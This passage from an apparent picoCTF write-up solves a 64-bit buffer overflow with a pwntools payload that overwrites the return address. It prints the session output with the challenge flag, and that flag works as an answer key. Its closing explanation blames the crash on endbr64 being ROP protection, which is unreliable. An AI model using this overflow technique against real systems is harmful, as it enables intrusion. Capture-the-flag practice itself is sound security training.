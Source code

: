```python
p.interactive()
```

However, in spite of the correct approach taken, this solution did not work, as I unexpectedly received a segmentation fault. If we refer to the challenge page on PicoCTF, we notice that this disclaimer was provided:
`Reminder: local exploits may not always work the same way remotely due to differences between machines.`

It appeared that entering the exact address of `flag()` does not work on all machines (explanation below!). To solve this challenge, I had to enter the address of a move instruction within the function instead.
`0x000000000040123b <+5>:     mov    rbp,rsp`

Making modifications to the Python script, we can now get the flag.

```python
...
payload = b'A' * 72 # RIP offset
payload += p64(0x40123b)
...
```

```bash
[+] Opening connection to saturn.picoctf.net on port 49395: Done
solve.py:10: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  print(p.recvuntil(':'))
b'Welcome to 64-bit. Give me a string that gets you the flag:'
[*] Switching to interactive mode

picoCTF{b1663r_15_b3773r_3e77a3f1}[*] Got EOF while reading in interactive
$
[*] Closed connection to saturn.picoctf.net port 49395
```

## Learning Takeaways

### Why did the program fail to call `flag()` when we loaded the address of flag into the payload?

Let's disassemble `flag()`.

```bash
gef➤  disas flag
Dump of assembler code for function flag:
0x0000000000401236 <+0>:     endbr64
0x000000000040123a <+4>:     push   rbp
0x000000000040123b <+5>:     mov    rbp,rsp
0x000000000040123e <+8>:     sub    rsp,0x50
...
```

We notice that the function address points to a `endbr64` instruction. After doing some brief research, it seems that this is a form of ROP protection on Intel-based chips. In short, the presence of this instruction prevents attackers (like us) from directly manipulating return addresses of functions on the call stack, thus preventing us from calling `flag()`.
